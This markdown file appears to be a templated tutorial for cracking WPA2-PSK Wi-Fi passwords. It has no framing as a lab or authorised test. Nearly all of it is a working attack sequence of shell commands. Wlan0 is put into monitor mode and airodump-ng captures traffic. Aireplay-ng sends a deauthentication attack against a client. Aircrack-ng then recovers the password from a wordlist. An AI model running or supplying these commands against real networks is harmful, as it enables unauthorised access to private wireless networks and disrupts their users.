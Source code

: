 # WPA2-PSK cracking with Accesspoint (same for WPA-PSK)

[//]: # ({ wlan: 'wlan0', channel: 6, apmac: 'D2:E9:6A:D3:B3:50', clientmac: '02:00:00:00:02:00', filename: 'test', passwordsFile: '100-common-passwords.txt' })

## See what wifi devices we have

```bash
iw dev
```

## We find wlan0 and set it to monitor mode

```bash
ip link set ${wlan} down
iw dev ${wlan} set type monitor
ip link set ${wlan} up
```

## Now we scan to see what is available:

```bash
airodump-ng --band abg ${wlan}
```

## We find an Access point, (Mac: D2:E9:6A:D3:B3:50), that we'd like to attack on channel 6, along with a client, (Mac: 02:00:00:00:02:00), so we start a dump to a set of files prefixed by 'test'

```bash
airodump-ng --band abg ${wlan} --channel ${channel} -w ${filename}
``` 

Which will save the output to a file named test.

## In a separate terminal, we do a deauth attack:

```bash
aireplay-ng -a ${apmac} --deauth 1 -c ${clientmac} ${wlan}
```

And when the handshake has been captured, we close the airodump session.

## Next we use aircrack to find the password from a wordlist:

```bash
aircrack-ng -w ${passwordsFile} ${filename}-01.cap
```

We now have the password.